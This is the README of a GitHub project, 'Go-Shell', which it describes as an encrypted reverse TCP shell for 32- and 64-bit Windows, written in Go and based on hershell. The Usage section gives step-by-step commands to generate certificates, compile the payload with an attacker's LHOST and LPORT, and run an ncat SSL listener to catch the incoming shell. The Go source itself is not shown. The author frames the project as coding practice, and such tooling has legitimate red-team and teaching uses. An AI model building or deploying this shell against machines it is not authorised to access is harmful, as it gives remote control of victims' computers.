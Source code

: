 <style>
.img1 {
  float: left;
  width: 40px;
  height: 40px;
}

.img2 {
  float: right;
  width: 40px;
  height: 40px;
}

</style>

<div >
    <img src="assets/owl.png" class="img1"/>
    <img src="assets/medusa.png" class="img2"/>
    <h1 align="center" > Go-Shell - Golang Reverse TCP Shell </h1>
</div>

## About

Windows 32/64 encrypted reverse TCP shell a simplified version of [hershell](https://github.com/lesnuages/hershell) which has a lot more features like cross compile to linux (check it out!).

<img src="assets/gopher.png" align="right" width="180" height="200" />

## Features
- Encrypted
- Can compile to 32 or 64bit architecture
- Certificate fingerprint pinning 

## Why?

I just wanted to practice some coding and a reverse tcp shell for windows with encryption and no extra functionalities like meterpreter integration

## Usage

- Clone the repo to compile it and modify it (Make sure to have golang installed!)
```bash
git clone https://github.com/Alpharivs/go-shell.git
```
- Prepare and compile the payload
```bash
# Generate Certificates
make prepare
# Compile Shell 
make windows64/windows32 LHOST=[IP] LPORT=[PORT]
# Delete Certificates and shell
make clean
```
- Set up a listener with ncat or any tool that can handle incoming ssl connections
```bash
# Set up listener
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lnvp [PORT]
```
- execute !

if you want a more in depth explanation of how it works check out [hershell](https://github.com/lesnuages/hershell).

<h2 align="center" > LVX-SIT</h2>
<h3 align="center" > MMDCCLXXV -- Ab urbe condita </h3>